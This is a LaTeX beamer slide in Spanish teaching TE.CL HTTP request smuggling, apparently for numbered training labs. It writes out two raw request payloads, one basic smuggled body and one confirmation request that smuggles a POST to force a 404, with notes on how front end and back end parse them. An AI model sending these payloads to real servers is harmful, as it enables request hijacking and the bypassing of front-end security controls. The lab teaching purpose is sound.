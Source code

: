 \documentclass[aspectratio=169,10pt]{beamer}
\newcommand{\cmd}[1]{\texttt{\color{uznavy}#1}}
\begin{document}
\begin{frame}[allowframebreaks]{TE.CL Básico y Confirmación Diferencial (Labs 122, 136)}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item El conflicto TE.CL
  \item Front-end usa Transfer-Encoding $\rightarrow$ procesa todos los chunks y reenvía.
  \item Back-end usa Content-Length $\rightarrow$ acepta solo N bytes $\rightarrow$ el resto queda en buffer.
  \item Payload básico TE.CL (Lab 136)
  \item \cmd{POST / HTTP/1.1}
  \item \cmd{Content-Length: 3}
  \item \cmd{Transfer-Encoding: chunked}
  \item \cmd{8}
  \item \cmd{SMUGGLED}
  \item \cmd{0}
  \item $\rightarrow$ Front-end: TE:chunked $\rightarrow$ envía todo hasta el '0\textbackslash\{\}r\textbackslash\{\}n\textbackslash\{\}r\textbackslash\{\}n'.
  \item $\rightarrow$ Back-end: CL=3 $\rightarrow$ acepta '8\textbackslash\{\}r\textbackslash\{\}n' $\rightarrow$ 'SMUGGLED\textbackslash\{\}r\textbackslash\{\}n0\textbackslash\{\}r\textbackslash\{\}n\textbackslash\{\}r\textbackslash\{\}n' en buffer.
  \item Confirmación TE.CL (Lab 122)
  \item \cmd{Content-Length: 4 / Transfer-Encoding: chunked}
  \item \cmd{5e}
  \item \cmd{POST /404noexiste HTTP/1.1}
  \item \cmd{Content-Type: application/x-www-form-urlencoded}
  \item \cmd{Content-Length: 15}
  \item \cmd{x=1}
  \item \cmd{0}
  \item $\rightarrow$ La petición de confirmación recibe 404 por el POST smuggleado.
  \item En TE.CL el terminador '0\textbackslash\{\}r\textbackslash\{\}n\textbackslash\{\}r\textbackslash\{\}n' debe incluir el \textbackslash\{\}r\textbackslash\{\}n final --- Burp lo omite por defecto.
  \end{itemize}
\end{frame}
\end{document}

